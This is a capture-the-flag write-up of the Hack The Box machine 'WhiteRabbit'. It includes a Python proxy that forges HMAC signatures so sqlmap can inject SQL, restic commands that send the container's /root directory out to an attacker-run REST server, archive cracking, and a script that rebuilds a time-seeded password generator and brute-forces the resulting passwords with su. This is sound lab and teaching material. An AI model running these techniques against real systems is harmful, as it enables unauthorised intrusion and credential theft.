

WhiteRabbit

WhiteRabbit was an insane-difficulty Linux machine that began with web enumeration revealing an Uptime Kuma status page exposing internal subdomains. I discovered a WikiJS instance containing documentation for a GoPhish webhook workflow that processed email data through N8N with SQL database queries. The documentation inadvertently leaked the HMAC secret key (3CWVGMndgMvdVAzOjqBiTicmv7gxc6IS) used to sign webhook requests, which I exploited by creating a Python proxy wrapper for SQLmap that calculated valid HMAC-SHA256 signatures. This allowed me to exploit a SQL injection vulnerability in the email parameter of the webhook endpoint, dumping the temp.command_log table which revealed Restic repository credentials (ygcsvCuMdfZ89yaRLlTKhe5jAmth7vxw) and a custom password generator binary being used to set Neo's password.
I restored a Restic snapshot containing a password-protected 7z archive with Bob's SSH keys, cracking the archive password (1q2w3e4r5t6y) using John the Ripper with rockyou.txt. After SSH access as Bob in a Docker container, I exploited Bob's unrestricted sudo privileges for /usr/bin/restic to backup the container's /root directory to a REST server on my attack box, exfiltrating Morpheus's SSH private key which granted access to the main host.
Reverse engineering the neo-password-generator binary with Ghidra revealed it used gettimeofday() as the seed for a pseudo-random 20-character password generator with a charset of 62 characters (a-zA-Z0-9). The SQL injection had exposed the exact timestamp of password generation (2024-08-30 14:40:42), leaving only milliseconds unknown. I recreated the password generation logic in Python using ctypes to call libc's srand() and rand() functions, generating all 1000 possible passwords for millisecond offsets 0-999. I created a bash bruteforce script that successfully discovered Neo's password (WBSxhWgfnMiclrV4dqfj) after testing the password list, and Neo's unrestricted sudo privileges (ALL) allowed immediate privilege escalation to root.
User Flag

Initial nmap scan reveals 3 ports. SSH on 22 and 2222, and a website on 80. The fact that there are 2 SSH ports leads me to believe that there may be a container running on the box.
Fuzzing The Website

The website mentions several tools: n8n, GoPhish, Stalwart Mailserver, and Uptime Kuma. There is nothing interesting on the main page itself, so I will try to find additional endpoints and subdomains by fuzzing.
ffuf -u http://whiterabbit.htb/FUZZ -w /usr/share/wordlists//seclists/Discovery/Web-Content/raft-small-words.txt
ffuf -u http://whiterabbit.htb -H "Host: FUZZ.whiterabbit.htb" -w /usr/share/wordlists//seclists/Discovery/DNS/subdomains-top1million-110000.txt -fw 1

There is only a single result, and it is a status subdomain under the main site.
Status Subdomain Fuzzing

Uptime Kuma is a self-hosted monitoring tool for keeping track of websites and applications. I don't have any credentials, so I won't be able to do anything with this login page. I'll fuzz this subdomain for endpoints instead.

A status endpoint has been found. Under this page, Uptime Kuma hosts its status pages on endpoints called slugs. I will fuzz this endpoint as well, as this will allow me to discover any existing slugs

Notice how many false positives have appeared with the same size of 2KB. By excluding this, I'll get the few differing entries that are not error pages.
Only a single entry has been found, but it returned a 200 status code. This means that I can reach it without authentication as is.

Out of the 4 websites being monitored, one is the main whiterabbit website, two (GoPhish and wikijs) are new, and the n8n one doesn't have a visible subdomain. I'll add the two new ones to my host file.
Investigating The New Subdomains
ddb09a8558c9.whiterabbit.htb <- GoPhish
a668910b5514e.whiterabbit.htb <- wikijs

GoPhish on ddb09a8558c9.whiterabbit.htb requires credentials. I'll pivot to checking out the wikijs subdomain.

Wikijs main page contains a telling ToDo note. Access to this wiki does not require authentication for now.
add authentification for wiki because we may have some sensitive data here in the next time
After clicking the browse button, a new page of the wiki titled GoPhish Webhooks appears.

This page describeshow event data from GoPhish is sent to and processed by N8N. It is configured to receive POST requests from GoPhish, containing event data like the recipient's email, action taken, and the campaign ID.
Looking at the workflow image, there may be an SQLi possibility since n8n will check whether the email provided in the request exists in the DB.
To mitigate this, an x-gopher-signature header containing an HMAC signature calculated for every request is used, created with a secret key known only to GoPhish. An example Webhook POST request was provided as well.
POST /webhook/d96af3a4-21bd-4bcb-bd34-37bfc67dfd1d HTTP/1.1
Host: 28efa8f7df.whiterabbit.htb
x-gophish-signature: sha256=cf4651463d8bc629b9b411c58480af5a9968ba05fca83efa03a21b2cecd1c2dd
Accept: */*
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Type: application/json
Content-Length: 81
{
"campaign_id": 1,
"email": "test@ex.com",
"message": "Clicked Link"
}
Without the secret key to forge the HMAC signatures, I cannot do anything here. There is a gophish_to_phishing_score_database.json file attached, containing a complete workflow with an invalid signature.
Finding the SQLi

On line 281, the secret value used to create the HMAC signatures is revealed within the value check operation.

And this snippet confirms the SQLi vulnerability. The user-controlled email value from a received POST request is directly sent to the database in this query:
SELECT * FROM victims where email = \"USER-INPUT\" LIMIT 1
This new knowledge now 100% points me towards the SQLi vector. The only major obstacle left is the HMAC-SHA header verification, but with the secret value, I will be able to bypass it.
Creating the proxy-wrapper script for SQLmap
I will use SQLmap to bruteforce the JSON parameters and find the SQLi. I'll create a proxy-wrapper script for sqlmap that will:
- Listen for any incoming requests on port 8080;
- For each request, it will calculate its HMAC-SHA256 signature and append it to the request within the
x-gophish-signatureheader. - This modified request will be sent to the webhook address from the example request.
import hmac
import hashlib
import json
from http.server import BaseHTTPRequestHandler, HTTPServer
import requests
SECRET_KEY = "3CWVGMndgMvdVAzOjqBiTicmv7gxc6IS"
TARGET_URL = "http://28efa8f7df.whiterabbit.htb/webhook/d96af3a4-21bd-4bcb-bd34-37bfc67dfd1d"
class ProxyHandler(BaseHTTPRequestHandler):
def do_POST(self):
content_length = int(self.headers['Content-Length'])
post_data = self.rfile.read(content_length)
try:
payload = json.loads(post_data.decode('utf-8'))
payload_json = json.dumps(payload, separators=(',', ':'))
signature = hmac.new(
SECRET_KEY.encode('utf-8'),
payload_json.encode('utf-8'),
hashlib.sha256
).hexdigest()
headers = {
"Content-Type": "application/json",
"x-gophish-signature": f"sha256={signature}"
}
response = requests.post(TARGET_URL, headers=headers, data=payload_json)
self.send_response(response.status_code)
self.send_header('Content-type', 'application/json')
self.end_headers()
self.wfile.write(response.content)
except Exception as e:
self.send_response(500)
self.end_headers()
self.wfile.write(str(e).encode('utf-8'))
if __name__ == '__main__':
server_address = ('127.0.0.1', 8080)
httpd = HTTPServer(server_address, ProxyHandler)
print("Proxy server running on port 8080...")
httpd.serve_forever()
It could also be done manually by taking input directly from the user, but SQLmap is simply faster and can identify more obscure SQLi vectors.
sqlmap -r request.req --proxy="http://127.0.0.1:8080" --dbs

Sqlmap has found 3 injection points, identified the DBMS backend as MySQL, and enumerated the existing databases. With this new information, I can enumerate each of them to see their tables and their contents.
sqlmap -r request.req --proxy="http://127.0.0.1:8080" --dbms=mysql -D phishing --dump-all

Nothing interesting in the phishing database, only test data.
sqlmap -r request.req --proxy="http://127.0.0.1:8080" --dbms=mysql -D temp --dump-all

On the other hand, the command_log table under the temp database contains a list of commands.
uname -a <- Prints out detailed information about the system and its components/hardware
restic init --repo rest:http://75951e6ff.whiterabbit.htb [!] <- Initializes a new Restic repository at the provided location. In this case, it is a REST server with this address.
echo ygcsvCuMdfZ89yaRLlTKhe5jAmth7vxw > .restic_passwd [!!!] <- Sets the Restic repo password to this value
rm -rf .bash_history <- Removes the bash history of the current user. This will clean up all the commands used
#thatwasclose <- lol
cd /home/neo/ && /opt/neo-password-generator/neo-password-generator | passwd [!] <- A custom password generator binary is used, and the result of its execution is piped to passwd, which will set the user's password to that result
Restoring The Restic Repo
Since I have the repo password, I'll take a look at what snapshots are tied to it. A snapshot is a saved state of files and directories in the repo at a specific moment in time.
restic snapshots -r rest:http://75951e6ff.whiterabbit.htb

There is only a single snapshot, but the path shown suggests it probably contains SSH keys for Bob. I will use the snapshot ID to restore the only available one.
restic restore -r rest:http://75951e6ff.whiterabbit.htb 272cacd5 --target repo

Cracking The 7z Archive With JtR
The only file inside is a 7z archive. Trying to extract it results in a password prompt.

But it also reveals what files are inside, and as expected, Bob's keys are there, alongside a config file. I'll generate a crackable hash with 7z2john, and I will try cracking it with John the Ripper to get the password.
7z2john bob.7z > 7zhash
john 7zhash --wordlist="/usr/share/wordlists/rockyou.txt"

7z archive | 1q2w3e4r5t6y
This password allows me to extract the archive and get my hands on Bob's SSH keys.

Backing Up The /root Directory With a REST Server
Judging by the hostname, I can fairly confidently say that this is a Docker container. I'll have a look at what Bob can do on the box.

Bob can run Restic as root with no restrictions. I will make a backup of the /root directory to get its contents. To do this, I will first set up a REST server on my attack box, so that I'll be able to get the files directly.
restic-rest-server --path ~/restic --listen :8010 --no-auth

Now I can create a repo on my local box from within the SSH Bob shell.
restic init --repo rest:http://10.10.16.34:8010/rootbackup
And backup the /root directory into it.
sudo /usr/bin/restic backup /root -r rest:http://10.10.16.34:8010/rootbackup/

I'll grab the snapshot ID so that I will be able to restore the files on my box.
sudo /usr/bin/restic snapshots -r rest:http://10.10.16.34:8010/rootbackup/

Finally, on my box, I'll restore the snapshot containing the root directory. This cannot be done from within the SSH shell, as the files are still owned by root. After restoring them onto my box, they will be owned by the user who initiated the restore operation, which will bypass this issue.
restic restore 74c81a5e -r rest:http://localhost:8010/rootbackup/ --target out

The root directory contains a new keypair, this time for the user morpheus. This user was not present in the container, so it is safe to assume that these keys will work on the main box.

Root Flag
Morpheus himself cannot really do anything, but during the SQLi part of this box, in the command log, there was one command that did not belong to Bob.
cd /home/neo/ && /opt/neo-password-generator/neo-password-generator | passwd
It was Neo using the custom binary to set a new password for his account. Neo is a valid user on this box, and as such, will be the next target for privilege escalation.
Reversing The Password Generator Binary
I will get the binary onto my box using SCP.
scp -i morpheus morpheus@whiterabbit.htb:/opt/neo-password-generator/neo-password-generator /home/kalin/HTB/WhiteRabbit
I'll use Ghidra to Reverse Engineer this ELF binary. Looking at its main function reveals something interesting.

It uses gettimeofday to get the current system timestamp, stores that value in the local 28 variable, then passes the result to a custom function with generate_password(local_28.tv_sec * 1000 + local_28.tv_usec / 1000);
The passed timestamp is then counted up into total milliseconds since epoch with local_28.tv_sec * 1000 converting seconds to milliseconds, and local_28.tv_usec / 1000 converting microseconds to milliseconds.

This function takes the previously prepared variable and seeds the random number generator with it srand(param_1), before running a loop.
for (local_34 = 0; local_34 < 0x14; local_34 = local_34 + 1) {
iVar1 = rand();
local_28[local_34] =
"abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"[iVar1 % 0x3e];
}
For each iteration of this loop, it generates a random number with rand, takes modulo 0x3e (62) to get index 0-61, then uses that index to pick a character from the following charset string:
abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789
26 lowercase + 26 uppercase letters + 10 numbers. 62 characters in total.
It stores that character in local_28 array, and repeats the process 19 more times (0x14 = 20 in total) to generate a pseudo-random 20 character long password.
Creating The Password List
The fact that the binary uses a timestamp as its RNG seed makes it potentially exploitable. If I have the time of its execution, it'll be possible to guess the password that was generated.
Going back to the SQLi portion of this box, the last command in the command_log table contained not only the command executing the binary, but also the timestamp of that event, precise to a second.
2024-08-30 14:40:42
I'm only missing the milliseconds, and that leaves ~1000 possible passwords I could get... But that value is small enough to try and bruteforce Neo's login with.
Making A Password Generator Script
# generate_passwd.py
import ctypes
from datetime import datetime
libc = ctypes.CDLL("libc.so.6")
def generate_password(seed):
libc.srand(seed)
charset = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
password = ""
for _ in range(20):
random_num = libc.rand()
index = random_num % 62
password += charset[index]
return password
def main():
dt = datetime(2024, 8, 30, 14, 40, 42)
unix_timestamp = int(dt.timestamp())
base_ms = unix_timestamp * 1000
print(f"Base timestamp: {dt}")
print(f"Unix timestamp (seconds): {unix_timestamp}")
print(f"Base milliseconds: {base_ms}")
print(f"\nGenerating 1000 possible passwords...\n")
with open("/home/kalin/HTB/WhiteRabbit/passwords", "w") as f:
for ms_offset in range(1000):
seed = base_ms + ms_offset
password = generate_password(seed)
f.write(f"{password}\n")
if (ms_offset + 1) % 100 == 0:
print(f"Generated {ms_offset + 1}/1000 passwords...")
print(f"\nAll 1000 passwords saved to passwords.txt")
if __name__ == "__main__":
main(
This script follows the binary's logic, using the provided timestamp instead of the current system time.

The last thing I need now is something to automate the bruteforce process. I'll create a bash script for that task, with some cool ASCII art.
#!/bin/bash
PASSWORD_FILE="/tmp/passwords"
USERNAME="neo"
COUNTER=0
echo "[*] Starting brute force attack on user: $USERNAME"
echo "[*] Reading passwords from: $PASSWORD_FILE"
echo "[*] Total passwords to try: $(wc -l < $PASSWORD_FILE)"
echo ""
while read -r password; do
COUNTER=$((COUNTER + 1))
if [ $((COUNTER % 100)) -eq 0 ]; then
echo "[*] Tried $COUNTER passwords so far..."
fi
result=$(echo "$password" | su -c "whoami" "$USERNAME" 2>/dev/null)
if [ $? -eq 0 ] && [ "$result" = "$USERNAME" ]; then
echo ""
echo "╔══════════════════════════════════════════════════════════════╗"
echo "║ ║"
echo "║ ███████╗██╗ ██╗ ██████╗ ██████╗███████╗███████╗███████╗ ║"
echo "║ ██╔════╝██║ ██║██╔════╝██╔════╝██╔════╝██╔════╝██╔════╝ ║"
echo "║ ███████╗██║ ██║██║ ██║ █████╗ ███████╗███████╗ ║"
echo "║ ╚════██║██║ ██║██║ ██║ ██╔══╝ ╚════██║╚════██║ ║"
echo "║ ███████║╚██████╔╝╚██████╗╚██████╗███████╗███████║███████║ ║"
echo "║ ╚══════╝ ╚═════╝ ╚═════╝ ╚═════╝╚══════╝╚══════╝╚══════╝ ║"
echo "║ ║"
echo "╚══════════════════════════════════════════════════════════════╝"
echo ""
echo "PASSWORD FOUND!"
echo ""
echo "┌─────────────────────────────────────────────────────────────┐"
echo "│ Username: $USERNAME │"
echo "│ Password: $password │"
echo "│ Attempts: $COUNTER │"
echo "└─────────────────────────────────────────────────────────────┘"
echo ""
echo "We can now login as Neo with: su $USERNAME"
echo ""
exit 0
fi
done < "$PASSWORD_FILE"
echo ""
echo "╔══════════════════════════════════════════════════════════════╗"
echo "║ FAILED ║"
echo "╚══════════════════════════════════════════════════════════════╝"
echo ""
echo "[!] Tried all $COUNTER passwords - none worked!"
echo "[!] Double check the timestamp or target username."
echo ""
exit 1
This script will test all 1000 passwords with its main while read loop, and it'll keep track of how many have been checked so far.
I transported both the password list and the bruteforcer script onto the target machine and ran the bruteforcer.

neo | WBSxhWgfnMiclrV4dqfj
I'll su as Neo with the uncovered password.

Rooted!